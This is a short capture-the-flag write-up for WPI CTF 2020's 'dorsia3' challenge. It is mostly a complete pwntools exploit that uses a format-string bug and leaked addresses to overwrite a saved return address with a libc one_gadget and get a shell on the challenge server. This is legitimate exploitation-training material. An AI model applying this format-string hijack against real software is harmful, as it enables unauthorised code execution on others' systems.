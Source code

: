 # dorsia3 250pts (55 solves) #

![TASK](https://imgur.com/vFmQYat.png)

We have a format string vulnerability and a leak of the buffer and system address so my idea was to overwrite the saved eip with the address of a one gadget from libc , we have all what we need so here is my full exploit.

I'll post a detailed writeup about this task in the next few days on my personal website so stay tuned (my twitter @BelkahlaAhmed1)!

![CODE](https://imgur.com/GSFhTJW.png)

```python

from pwn import *
def pad(str):
        return str+(60-len(str))*"B"
#p=process("./nanoprint")
p=remote("dorsia3.wpictf.xyz",31337)
data=p.recvline()
BUFFER=int(data[:10],16)
SYSTEM=int(data[-11:-1],16)+288
log.info("Buffer starts: "+hex(BUFFER))
log.info("System address: "+hex(SYSTEM))
BASE=SYSTEM-0x3d200
one_gadget=BASE+0x3d0e0
RET=BUFFER+0x71
RET2=RET+2
log.info("Writing to: "+hex(RET))
payload="B"
payload+=p32(RET)
payload+=p32(RET2)
off1=(one_gadget & 0xffff)-9
off2=int(hex(one_gadget & 0xffff0000)[:-4],16)-(one_gadget & 0xffff)
log.info("one gadget address: "+hex(one_gadget))
log.info("offset1 and 2: "+str(off1)+"|"+str(off2))
payload+="%"+str(off1)+"x"
payload+="%7$hn"
payload+="%"+str(off2)+"x"
payload+="%8$hn"
#pause()
p.sendline(pad(payload))
p.interactive()

#Offset buffer-ret : +0x71
#offset fmt 7

```

**Note:** : Here is the [binary](https://github.com/kahla-sec/CTF-Writeups/blob/master/WPI%20CTF%202020/dorsia3/nanoprint) and the [libc]()

For any questions you can contact me on twitter @BelkahlaAhmed1 and thank you :D
